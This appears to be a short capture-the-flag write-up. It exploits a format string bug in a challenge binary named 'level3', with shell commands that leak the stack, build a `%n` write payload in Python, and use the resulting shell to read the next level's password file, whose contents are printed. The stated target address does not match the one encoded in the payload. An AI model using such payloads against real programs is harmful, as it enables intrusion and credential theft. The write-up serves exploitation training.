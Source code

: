 We can write in a buffer that will be printed with `printf`, and we know about format string exploit. \
Here are the first few steps to exploit a format string outside of gdb: \
```shell
$ # find where our buffer is written in memory:
$ echo "AAAA %x %x %x %x" | ./level3
AAAA 200 b7fd1ac0 b7ff37d0 41414141

$ # we know we need to write '64' at address '0x804888c', so we can use the `%n` modifier with 64 bytes before in the string to write to the address:
$ python -c 'print "\x8c\x98\x04\x08" + "\x90" * 60 + "%4$n"' > /tmp/exploit
                    |_ write 4b (addr)   |_ write 60 bytes

$ # the binary will execute system if the address 0x804888c contains "64", as we need to pipe into the binary we still need to keep stdin open to inject commands or the shell will exit prematurely:
$ cat /tmp/exploit - | ./level3
cat /home/user/level4/.pass
b209ea91ad69ef36f2cf0fcbbc24c739fd10464cf545b20bea8572ebdc3c36fa
```

